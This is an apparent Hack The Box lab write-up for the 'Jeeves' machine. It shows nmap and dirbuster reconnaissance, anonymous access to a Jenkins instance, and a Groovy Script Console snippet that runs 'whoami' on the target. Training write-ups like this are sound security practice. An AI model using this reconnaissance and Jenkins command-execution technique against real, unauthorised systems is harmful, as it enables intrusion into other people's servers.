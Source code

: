 Jeeves

https://www.hackthebox.eu/home/machines/profile/114

* Author: mrb3n
* Series: HTB

## Scan target using nmap

### Service Scan
```
nmap -sV 10.10.10.63
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-24 15:53 MDT
Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 995 filtered ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 10.0
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
50000/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.93 seconds
```

two http ports stand out
Going to run dirbuster on them
80, 50000

### Running Dirbuster on IIS 10.0
```
dirbuster -u http://10.10.10.63 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
```

### Running Dirbuster on JETTY 9.4
```
dirbuster -u http://10.10.10.63:50000 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: /askjeeves/ - 200
Dir found: /askjeeves/about/ - 200
Dir found: / - 200
File found: /error.html - 200
File found: /jeeves.PNG - 200
Dir found: /askjeeves/people/ - 200

```

Testing out 10.10.10.63:50000/askjeeves
Discovered, anonymous access, navigated to Manage Jenkins
Clicked Script Console -

Type in an arbitrary Groovy script and execute it on the server. 
Useful for trouble-shooting and diagnostics. 
Use the ‘println’ command to see the output (if you use System.out, it will go to the server’s stdout, which is harder to see.) Example:

println(Jenkins.instance.pluginManager.plugins)

All the classes from all the plugins are visible. jenkins.*, jenkins.model.*, hudson.*, and hudson.model.* are pre-imported.

### Groovy Script Test
```
cmd = "whoami"
println cmd.execute().text

Result

jeeves\kohsuke

```	



